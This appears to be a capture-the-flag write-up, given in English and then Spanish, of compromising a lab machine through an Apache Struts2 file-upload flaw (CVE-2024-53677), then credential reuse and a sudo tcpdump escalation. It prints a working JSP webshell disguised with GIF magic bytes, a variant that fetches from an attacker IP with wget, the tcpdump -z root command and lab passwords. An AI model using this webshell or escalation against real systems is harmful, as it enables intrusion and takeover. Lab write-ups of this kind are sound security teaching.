







Exploitation Summary
Exploitation process: The target machine was running a Java web application with Apache Struts2, vulnerable to CVE-2024-53677, a file upload vulnerability that allows arbitrary file uploads through path traversal. By exploiting this vulnerability in the FileUploadInterceptor class, I was able to bypass weak image validation checks that only verified magic bytes and content type, allowing me to upload a JSP webshell to the web root directory.
After obtaining initial access as the tomcat user through the webshell, I discovered SSH credentials for the user james in application configuration files. These credentials allowed lateral movement to the james account, which belonged to the sudo group.
Privilege escalation was achieved by exploiting sudo permissions on the tcpdump binary. Using tcpdump's postrotate-command feature with the -z flag, I was able to execute arbitrary commands as root through blind command injection, reading the root flag by redirecting command output to accessible files.
Technologies/Exploits: Apache Struts2 file upload vulnerability (CVE-2024-53677), FileUploadInterceptor path traversal, JSP webshell, tcpdump privilege escalation via sudo misconfiguration.
Initial Reconnaissance
Starting with an nmap scan to identify open ports and services running on the target machine:

The scan reveals SSH on port 22 and an HTTP service on port 80. I add the hostname strutted.htb to my /etc/hosts file for proper domain resolution.
Web Enumeration - Image Upload Application
Navigating to the web server, I encounter a typical image upload application. Interestingly, there's an option to download the source code, which I immediately do to begin code analysis.
Source Code Analysis
While inspecting the downloaded source code, I find credentials in one of the configuration files in the root directory:
<tomcat-users>
<role rolename="manager-gui"/>
<role rolename="admin-gui"/>
<user username="admin" password="skqKY6360z!Y" roles="manager-gui,admin-gui"/>
</tomcat-users>
These credentials don't work for SSH access, and the typical Tomcat manager paths (/manager-gui or /admin-gui) don't exist on this server.
Application Dependencies
The application is a Java backend with the following key dependencies:

Reviewing the image upload code, I notice it uses weak prevention methods, only checking the content-type header and magic bytes of uploaded images—both of which can be easily manipulated.
Understanding the Upload Mechanism
When an image is uploaded, it's stored in two locations:
- The standard uploads directory:
http://strutted.htb/uploads/20250928_211001/potato.jpeg
- A shortlink that displays the image directly on the site:
http://strutted.htb/s/59b67e0b
The shortlink functionality is particularly interesting as it serves the uploaded content through the application itself.
Initial Exploitation Attempts
Not knowing initially how to leverage a file upload vulnerability in a Java backend, I begin researching various techniques.
Steganography Approach
I first attempt to embed malicious JSP code within an image using steganography:
GIF89a;
<%@ page import="java.io.*" %>
<%
Process p = Runtime.getRuntime().exec("wget 10.10.14.239");
OutputStream os = p.getOutputStream();
InputStream in = p.getInputStream();
int c;
while ((c = in.read()) != -1) {
out.print((char)c);
}
in.close();
%>
steghide embed -ef test.jsp -cf dog2.jpeg
Enter passphrase:
Re-Enter passphrase:
embedding "test.jsp" in "dog2.jpeg"... done
Unfortunately, uploading this image doesn't trigger code execution—my Python HTTP server listening on port 80 receives no connections.
I also try creating a JSP file with GIF magic bytes (GIF89a) prepended, but this approach also fails to execute the embedded code.
Virtual Host Enumeration
I perform a virtual host scan but find nothing additional.
Vulnerability Research - CVE-2024-53677
Reviewing the versions of the dependencies more carefully, I discover that struts2-core versions below 7.0.0 are vulnerable to remote code execution (CVE-2024-53677) if certain file upload conditions are met in the code.
Reference: https://security.snyk.io/vuln/SNYK-JAVA-ORGAPACHESTRUTS-8496612
I find a proof-of-concept exploit on GitHub: https://github.com/EQSTLab/CVE-2024-53677
Understanding the Struts2 Vulnerability
The vulnerability exploits the FileUploadInterceptor class in the Struts2 framework. This class intercepts and processes file uploads where input fields have specific names:
Upload - for the actual file payloaduploadFileName - to specify the filename
The critical flaw is that uploadFileName is vulnerable to path traversal, allowing an attacker to control where the uploaded file is saved on the server.
Combined with the weak validation (only checking filename and magic bytes), this creates a perfect storm for arbitrary file upload and remote code execution.
Exploiting CVE-2024-53677 - Manual Approach
The public exploit doesn't work directly on this machine because it wasn't designed for an image upload application that validates magic bytes. However, the underlying vulnerability is present, so I exploit it manually using Burp Suite.
Crafting the Malicious JSP Webshell
After several tests comparing my requests with the PoC exploit, I craft a JSP webshell that bypasses the application's defenses:
GIF89a;
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
if (cmd != null) {
Process p = Runtime.getRuntime().exec(cmd);
OutputStream os = p.getOutputStream();
InputStream in = p.getInputStream();
int c;
while ((c = in.read()) != -1) {
out.print((char)c);
}
in.close();
}
%>
The key elements of this payload:
GIF89a; - Magic bytes to pass the image validation- JSP code that accepts a
cmd parameter and executes it
- Output is captured and displayed in the HTTP response
Uploading the Webshell via Burp Suite
Using Burp Suite, I modify the upload request to exploit the path traversal vulnerability in uploadFileName:

The exploit works by:
- Setting the field name to
Upload to trigger the FileUploadInterceptor
- Using path traversal in
uploadFileName to save the file to the web root
- Including GIF magic bytes to bypass content validation
- Embedding executable JSP code after the magic bytes
Webshell Access
After successfully uploading the file, I can access the webshell and execute commands:

The webshell is now accessible at the root of the web application, allowing me to execute arbitrary commands through the cmd parameter.
Initial Access - Reverse Shell
With command execution capabilities, I establish a reverse shell to gain interactive access to the system. Using the webshell, I execute a reverse shell payload that connects back to my netcat listener.
I successfully obtain a shell as the tomcat user.
Post-Exploitation Enumeration
User Discovery
Exploring the /home directory, I discover a user named james. I test the credentials found earlier (admin:skqKY6360z!Y) for both james and root, but they don't work.
Additional Credentials
Continuing to search through application files, I find another set of credentials:
<user username="admin" password="IT14d6SSP81k" roles="manager-gui,admin-gui"/>
These also don't work for su commands to james or root.
Network Service Discovery
Using ss -tuln, I discover an application running locally on port 8080. I set up chisel for local port forwarding to investigate, but it turns out to be the same application from port 80, just accessed through a reverse proxy.
User Group Analysis
Checking user permissions, I notice something interesting:
tomcat@strutted:~$ id james
uid=1000(james) gid=1000(james) groups=1000(james),27(sudo)
The user james is in the sudo group, making this account a prime target for lateral movement.
Lateral Movement - SSH Access as James
With no other leads immediately apparent, I try a different approach. Instead of using su to switch users, I attempt SSH access as james using the password IT14d6SSP81k.
Success! The password works for SSH authentication:

I now have proper shell access as james and can retrieve the user flag.
Privilege Escalation - Sudo Tcpdump
Checking sudo privileges for the james user:
james@strutted:~$ sudo -l
Matching Defaults entries for james on localhost:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty
User james may run the following commands on localhost:
(ALL) NOPASSWD: /usr/sbin/tcpdump
The user can run tcpdump as root without a password—this is a known privilege escalation vector.
Understanding the Tcpdump Privilege Escalation
According to GTFOBins (https://gtfobins.github.io/gtfobins/tcpdump/#sudo), tcpdump doesn't drop privileges when run with sudo and can be exploited to execute arbitrary commands as root.
The attack leverages tcpdump's -z flag, which runs a command after rotating capture files. Since tcpdump runs as root, any command executed through this flag will also run with root privileges.
Blind Command Injection
The standard GTFOBins example doesn't produce direct output, but I can verify root execution by having commands write to files. Testing confirms that files created this way are owned by root, proving the vulnerability is exploitable through blind command injection.
Extracting the Root Flag
I craft a command that reads the root flag and redirects the output to a file I can access:

The command structure:
sudo tcpdump -ln -i any -w /dev/null -W 1 -G 1 -z /tmp/privesc.sh
Where privesc.sh contains commands to read /root/root.txt and write it to an accessible location.
Successfully reading the root flag:

Through this blind command injection technique with tcpdump's postrotate command feature, I achieve privilege escalation and complete the machine by obtaining the root flag.
Resumen de Explotación
Resumen del proceso: La máquina objetivo ejecutaba una aplicación web Java con Apache Struts2, vulnerable a CVE-2024-53677, una vulnerabilidad de subida de archivos que permite cargas arbitrarias mediante path traversal. Explotando esta vulnerabilidad en la clase FileUploadInterceptor, pude saltarme las débiles comprobaciones de validación de imágenes que solo verificaban magic bytes y content-type, permitiéndome subir una webshell JSP al directorio raíz de la web.
Tras obtener acceso inicial como usuario tomcat mediante la webshell, descubrí credenciales SSH para el usuario james en archivos de configuración de la aplicación. Estas credenciales permitieron movimiento lateral a la cuenta de james, que pertenecía al grupo sudo.
La escalada de privilegios se logró explotando permisos sudo sobre el binario tcpdump. Usando la característica postrotate-command de tcpdump con el flag -z, pude ejecutar comandos arbitrarios como root mediante inyección de comandos a ciegas, leyendo la flag de root redirigiendo la salida de comandos a archivos accesibles.
Tecnologías/Exploits: Vulnerabilidad de subida de archivos en Apache Struts2 (CVE-2024-53677), path traversal en FileUploadInterceptor, webshell JSP, escalada de privilegios con tcpdump mediante mala configuración de sudo.
Reconocimiento Inicial
Comienzo con un escaneo nmap para identificar puertos abiertos y servicios ejecutándose en la máquina objetivo:
El escaneo revela SSH en el puerto 22 y un servicio HTTP en el puerto 80. Añado el hostname strutted.htb a mi fichero /etc/hosts para una resolución de dominio adecuada.
Enumeración Web - Aplicación de Subida de Imágenes
Navegando al servidor web, encuentro una típica aplicación de subida de imágenes. Curiosamente, hay una opción para descargar el código fuente, lo cual hago inmediatamente para comenzar el análisis de código.
Análisis del Código Fuente
Mientras inspecciono el código fuente descargado, encuentro credenciales en uno de los archivos de configuración en el directorio raíz:
<tomcat-users>
<role rolename="manager-gui"/>
<role rolename="admin-gui"/>
<user username="admin" password="skqKY6360z!Y" roles="manager-gui,admin-gui"/>
</tomcat-users>
Estas credenciales no funcionan para acceso SSH, y las rutas típicas del gestor de Tomcat (/manager-gui o /admin-gui) no existen en este servidor.
Dependencias de la Aplicación
La aplicación es un backend Java con las siguientes dependencias clave:
Revisando el código de subida de imágenes, noto que usa métodos de prevención débiles, comprobando solo la cabecera content-type y los magic bytes de las imágenes subidas—ambas cosas pueden manipularse fácilmente.
Entendiendo el Mecanismo de Subida
Cuando se sube una imagen, se almacena en dos ubicaciones:
- El directorio estándar de subidas:
http://strutted.htb/uploads/20250928_211001/potato.jpeg
- Un shortlink que muestra la imagen directamente en el sitio:
http://strutted.htb/s/59b67e0b
La funcionalidad del shortlink es particularmente interesante ya que sirve el contenido subido a través de la propia aplicación.
Intentos Iniciales de Explotación
Sin saber inicialmente cómo aprovechar una vulnerabilidad de subida de archivos en un backend Java, comienzo investigando varias técnicas.
Enfoque con Esteganografía
Primero intento incrustar código JSP malicioso dentro de una imagen usando esteganografía:
GIF89a;
<%@ page import="java.io.*" %>
<%
Process p = Runtime.getRuntime().exec("wget 10.10.14.239");
OutputStream os = p.getOutputStream();
InputStream in = p.getInputStream();
int c;
while ((c = in.read()) != -1) {
out.print((char)c);
}
in.close();
%>
steghide embed -ef test.jsp -cf dog2.jpeg
Enter passphrase:
Re-Enter passphrase:
embedding "test.jsp" in "dog2.jpeg"... done
Desafortunadamente, subir esta imagen no desencadena la ejecución de código—mi servidor HTTP Python escuchando en el puerto 80 no recibe conexiones.
También pruebo crear un archivo JSP con magic bytes GIF (GIF89a) antepuestos, pero este enfoque también falla en ejecutar el código incrustado.
Enumeración de Hosts Virtuales
Realizo un escaneo de hosts virtuales pero no encuentro nada adicional.
Investigación de Vulnerabilidades - CVE-2024-53677
Revisando las versiones de las dependencias más cuidadosamente, descubro que las versiones de struts2-core por debajo de 7.0.0 son vulnerables a ejecución remota de código (CVE-2024-53677) si se cumplen ciertas condiciones de subida de archivos en el código.
Referencia: https://security.snyk.io/vuln/SNYK-JAVA-ORGAPACHESTRUTS-8496612
Encuentro una prueba de concepto del exploit en GitHub: https://github.com/EQSTLab/CVE-2024-53677
Entendiendo la Vulnerabilidad de Struts2
La vulnerabilidad explota la clase FileUploadInterceptor en el framework Struts2. Esta clase intercepta y procesa subidas de archivos donde los campos de entrada tienen nombres específicos:
Upload - para el payload del archivo en síuploadFileName - para especificar el nombre del archivo
El fallo crítico es que uploadFileName es vulnerable a path traversal, permitiendo a un atacante controlar dónde se guarda el archivo subido en el servidor.
Combinado con la validación débil (solo comprobando nombre de archivo y magic bytes), esto crea la tormenta perfecta para subida arbitraria de archivos y ejecución remota de código.
Explotando CVE-2024-53677 - Enfoque Manual
El exploit público no funciona directamente en esta máquina porque no estaba diseñado para una aplicación de subida de imágenes que valida magic bytes. Sin embargo, la vulnerabilidad subyacente está presente, así que la exploto manualmente usando Burp Suite.
Creando la Webshell JSP Maliciosa
Después de varias pruebas comparando mis peticiones con el PoC del exploit, creo una webshell JSP que sortea las defensas de la aplicación:
GIF89a;
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
if (cmd != null) {
Process p = Runtime.getRuntime().exec(cmd);
OutputStream os = p.getOutputStream();
InputStream in = p.getInputStream();
int c;
while ((c = in.read()) != -1) {
out.print((char)c);
}
in.close();
}
%>
Los elementos clave de este payload:
GIF89a; - Magic bytes para pasar la validación de imágenes- Código JSP que acepta un parámetro
cmd y lo ejecuta
- La salida se captura y muestra en la respuesta HTTP
Subiendo la Webshell mediante Burp Suite
Usando Burp Suite, modifico la petición de subida para explotar la vulnerabilidad de path traversal en uploadFileName:
El exploit funciona mediante:
- Establecer el nombre del campo como
Upload para activar el FileUploadInterceptor
- Usar path traversal en
uploadFileName para guardar el archivo en la raíz web
- Incluir magic bytes GIF para sortear la validación de contenido
- Incrustar código JSP ejecutable después de los magic bytes
Acceso a la Webshell
Después de subir exitosamente el archivo, puedo acceder a la webshell y ejecutar comandos:
La webshell ahora es accesible en la raíz de la aplicación web, permitiéndome ejecutar comandos arbitrarios mediante el parámetro cmd.
Acceso Inicial - Reverse Shell
Con capacidades de ejecución de comandos, establezco una reverse shell para obtener acceso interactivo al sistema. Usando la webshell, ejecuto un payload de reverse shell que se conecta de vuelta a mi listener de netcat.
Obtengo exitosamente una shell como usuario tomcat.
Enumeración Post-Explotación
Descubrimiento de Usuarios
Explorando el directorio /home, descubro un usuario llamado james. Pruebo las credenciales encontradas anteriormente (admin:skqKY6360z!Y) para james y root, pero no funcionan.
Credenciales Adicionales
Continuando la búsqueda por archivos de la aplicación, encuentro otro conjunto de credenciales:
<user username="admin" password="IT14d6SSP81k" roles="manager-gui,admin-gui"/>
Estas tampoco funcionan para comandos su a james o root.
Descubrimiento de Servicios de Red
Usando ss -tuln, descubro una aplicación ejecutándose localmente en el puerto 8080. Configuro chisel para local port forwarding para investigar, pero resulta ser la misma aplicación del puerto 80, solo accedida mediante un proxy inverso.
Análisis de Grupos de Usuarios
Comprobando permisos de usuarios, noto algo interesante:
tomcat@strutted:~$ id james
uid=1000(james) gid=1000(james) groups=1000(james),27(sudo)
El usuario james está en el grupo sudo, haciendo de esta cuenta un objetivo prioritario para movimiento lateral.
Movimiento Lateral - Acceso SSH como James
Sin otras pistas inmediatamente aparentes, pruebo un enfoque diferente. En lugar de usar su para cambiar de usuarios, intento acceso SSH como james usando la contraseña IT14d6SSP81k.
¡Éxito! La contraseña funciona para autenticación SSH:
Ahora tengo acceso shell propio como james y puedo recuperar la flag de usuario.
Escalada de Privilegios - Sudo Tcpdump
Comprobando privilegios sudo para el usuario james:
james@strutted:~$ sudo -l
Matching Defaults entries for james on localhost:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty
User james may run the following commands on localhost:
(ALL) NOPASSWD: /usr/sbin/tcpdump
El usuario puede ejecutar tcpdump como root sin contraseña—este es un vector conocido de escalada de privilegios.
Entendiendo la Escalada de Privilegios con Tcpdump
Según GTFOBins (https://gtfobins.github.io/gtfobins/tcpdump/#sudo), tcpdump no libera privilegios cuando se ejecuta con sudo y puede explotarse para ejecutar comandos arbitrarios como root.
El ataque aprovecha el flag -z de tcpdump, que ejecuta un comando después de rotar archivos de captura. Como tcpdump se ejecuta como root, cualquier comando ejecutado mediante este flag también se ejecutará con privilegios de root.
Inyección de Comandos a Ciegas
El ejemplo estándar de GTFOBins no produce salida directa, pero puedo verificar la ejecución como root haciendo que los comandos escriban en archivos. Las pruebas confirman que los archivos creados de esta manera son propiedad de root, demostrando que la vulnerabilidad es explotable mediante inyección de comandos a ciegas.
Extrayendo la Flag de Root
Creo un comando que lee la flag de root y redirige la salida a un archivo al que puedo acceder:
La estructura del comando:
sudo tcpdump -ln -i any -w /dev/null -W 1 -G 1 -z /tmp/privesc.sh
Donde privesc.sh contiene comandos para leer /root/root.txt y escribirlo en una ubicación accesible.
Leyendo exitosamente la flag de root:
Mediante esta técnica de inyección de comandos a ciegas con la característica postrotate command de tcpdump, logro la escalada de privilegios y completo la máquina obteniendo la flag de root.